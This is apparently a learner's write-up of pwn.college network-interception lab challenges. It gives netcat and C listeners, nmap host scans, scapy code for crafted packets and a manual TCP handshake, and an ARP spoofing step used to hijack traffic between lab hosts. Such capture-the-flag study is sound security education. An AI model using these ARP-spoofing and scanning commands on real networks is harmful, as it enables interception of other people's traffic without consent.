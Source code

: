 # Intercepting Communication

Learn various techniques to intercept and manipulate network communication, from connecting to remote hosts to performing man-in-the-middle attacks.

pwn.college [Intercepting Communication](https://pwn.college/intro-to-cybersecurity/intercepting-communication/)

## Listen to a port

The simplest method is to use netcat,

```sh
nc -l 31337
```

But I first did it with a C program,

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define BUFFER_SIZE 1024

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <port>\n", argv[0]);
        exit(EXIT_FAILURE);
    }

    int port = atoi(argv[1]);
    if (port <= 0) {
        fprintf(stderr, "Invalid port number\n");
        exit(EXIT_FAILURE);
    }

    int server_fd, new_socket;
    struct sockaddr_in address;
    int opt = 1;
    int addrlen = sizeof(address);
    char buffer[BUFFER_SIZE] = {0};

    // Creating socket file descriptor
    if ((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == 0) {
        perror("socket failed");
        exit(EXIT_FAILURE);
    }

    // Forcefully attaching socket to the port
    if (setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR | SO_REUSEPORT, &opt, sizeof(opt))) {
        perror("setsockopt");
        close(server_fd);
        exit(EXIT_FAILURE);
    }

    address.sin_family = AF_INET;
    address.sin_addr.s_addr = INADDR_ANY;
    address.sin_port = htons(port);

    // Bind the socket to the port
    if (bind(server_fd, (struct sockaddr *)&address, sizeof(address)) < 0) {
        perror("bind failed");
        close(server_fd);
        exit(EXIT_FAILURE);
    }

    // Listen for incoming connections
    if (listen(server_fd, 3) < 0) {
        perror("listen");
        close(server_fd);
        exit(EXIT_FAILURE);
    }

    printf("Listening on port %d\n", port);

    // Accept an incoming connection
    if ((new_socket = accept(server_fd, (struct sockaddr *)&address, (socklen_t*)&addrlen)) < 0) {
        perror("accept");
        close(server_fd);
        exit(EXIT_FAILURE);
    }

    // Receive data and print it
    int read_bytes;
    while ((read_bytes = read(new_socket, buffer, BUFFER_SIZE)) > 0) {
        printf("%.*s", read_bytes, buffer);
        memset(buffer, 0, BUFFER_SIZE);
    }

    if (read_bytes < 0) {
        perror("read");
    }

    // Close the connection
    close(new_socket);
    close(server_fd);

    return 0;
}
```

Compile the program with `gcc -o tcp_server tcp_server.c`

## Find a host on a network

In this challenge you will find and connect to a remote host. The remote host is somewhere on the `10.0.0.0/24` subnetwork, listening on port `31337`.

```sh
nmap -v -p 31337 10.0.0.0/24
nc 10.0.0.98 31337
```

## Find a hosts that are up on a large network

```sh
nmap -v --open -T4 -sn 10.0.0.0/16
```

 This took 2572 seconds. Others solve in less than two minutes so there is a quicker way to scan. 🤔

## Sending a custom packet to a remote host

Using [scapy](https://scapy.readthedocs.io/en/latest/index.html),

```python
src_mac=get_if_hwaddr("eth0")

pkt = Ether(type=0xFFFF, src=src_mac, dst="ff:ff:ff:ff:ff:ff")/IP(src="10.0.0.2", dst="10.0.0.3")/TCP(sport=31337, dport=31337, seq=31337, ack=31337, flags="APRSF")

resp = sendp(pkt, iface="eth0", return_packets=True)
```

## TCP handshake

Manually perform a Transmission Control Protocol handshake. The initial packet should have `TCP sport=31337, dport=31337, seq=31337`. The handshake should occur with the remote host at `10.0.0.3`.

```python
# Get the MAC address of the ethernet interface
src_mac=get_if_hwaddr("eth0")

# Send the SYN packet
pkt = Ether(src=src_mac, dst="ff:ff:ff:ff:ff:ff")/IP(src="10.0.0.2", dst="10.0.0.3")/TCP(sport=31337, dport=31337, seq=31337, flags="S")
resp = srp(pkt, iface="eth0")

# View the response
resp[0][0]
```

This displays the following,

```txt
QueryAnswer(
  query=<Ether  dst=ff:ff:ff:ff:ff:ff src=26:c2:81:a8:58:02 type=IPv4 |<IP  frag=0 proto=tcp src=10.0.0.2 dst=10.0.0.3 |<TCP  sport=31337 dport=31337 seq=31337 flags=S |>>>,
  answer=<Ether  dst=26:c2:81:a8:58:02 src=42:a8:e3:7b:b2:87 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=40 id=1 flags= frag=0 ttl=64 proto=tcp chksum=0x66cb src=10.0.0.3 dst=10.0.0.2 |<TCP  sport=31337 dport=31337 seq=2120348149 ack=31338 dataofs=5 reserved=0 flags=SA window=8192 chksum=0x9c39 urgptr=0 |>>>
)
```

Pull the `src=42:a8:e3:7b:b2:87` to use as the `dst` in the next `Ether` packet. Also pull `seq=2120348149` and `ack=31338` out of the response. We set our `ack` field to one plus their `seq` and our `seq` equal to their `ack`

```python
# Send the ACK Packet
pkt = Ether(src=src_mac, dst="42:a8:e3:7b:b2:87")/IP(src="10.0.0.2", dst="10.0.0.3")/TCP(sport=31337, dport=31337, seq=31338, ack=2120348150, flags="A")
sendp(pkt, iface="eth0")
```

## Send ARP packet

Manually send an Address Resolution Protocol packet. The packet should have `ARP op=is-at` and correctly inform the remote host of where the sender can be found. The packet should be sent to the remote host at `10.0.0.3`.

```python
sendp(Ether(src="26:0e:62:c0:25:8e", dst="ff:ff:ff:ff:ff:ff")/ARP(psrc="10.0.0.2", hwsrc="26:0e:62:c0:25:8e", op="is-at"), iface="eth0")
```

## Hijack traffic from a remote host using ARP

Hijack traffic from a remote host using ARP. You do not have the capabilities of a NET ADMIN. The remote host at `10.0.0.4` is communicating with the remote host at `10.0.0.2` on port `31337`.

First, set the IP address to that of the target machine,

```sh
ifconfig eth0 10.0.0.2 netmask 255.255.0.0
```

Then in `scapy`, send an ARP packet telling 10.0.0.4 that my machine is now 10.0.0.2 (same as previous level),

```python
sendp(Ether(src="26:0e:62:c0:25:8e", dst="ff:ff:ff:ff:ff:ff")/ARP(psrc="10.0.0.2", hwsrc="26:0e:62:c0:25:8e", op="is-at"), iface="eth0")
```

Finally, use netcat to listen on the port,

```sh
nc -l 31337
```
